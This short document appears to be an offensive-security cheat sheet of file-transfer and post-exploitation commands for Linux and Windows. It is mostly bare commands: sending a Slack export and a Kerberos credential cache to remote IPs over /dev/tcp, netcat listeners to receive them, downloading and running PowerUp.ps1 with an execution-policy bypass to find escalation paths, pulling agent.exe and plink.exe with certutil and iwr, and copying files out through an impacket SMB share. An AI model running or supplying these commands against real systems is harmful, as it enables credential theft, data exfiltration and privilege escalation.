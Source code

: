 nc -lnvp 80 < FILENAME

bash -c “cat < /dev/tcp/$IP/$PORT > FILENAME”

cat 'Test Workspace Slack export May 17 2020 - May 18 2020.zip' > /dev/tcp/172.16.1.100/50001

nc -lnvp 50001 > krb5cc

cat 'krb5cc_50' > /dev/tcp/10.10.16.51/50001

# Windows #

iwr -uri [http://192.168.](http://192.168.119.3/adduser.exe)45.236/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile

certutil.exe -urlcache -split -f “http://172.16.5.15:8000/agent.exe”

powershell wget -uri [http://192.168.45.157/plink.exe](http://192.168.45.157/plink.exe) -OutFile C:\Windows\Temp\plink.exe

Transfer from Windows to Kali

### spin up SMB server on Kali

impacket-smbserver share . -smb2support -username temp -password temp

### Copy file from Windows to Kali

net use \\172.16.1.100\share /user:temp temp

copy tasks.txt \\172.16.1.100\share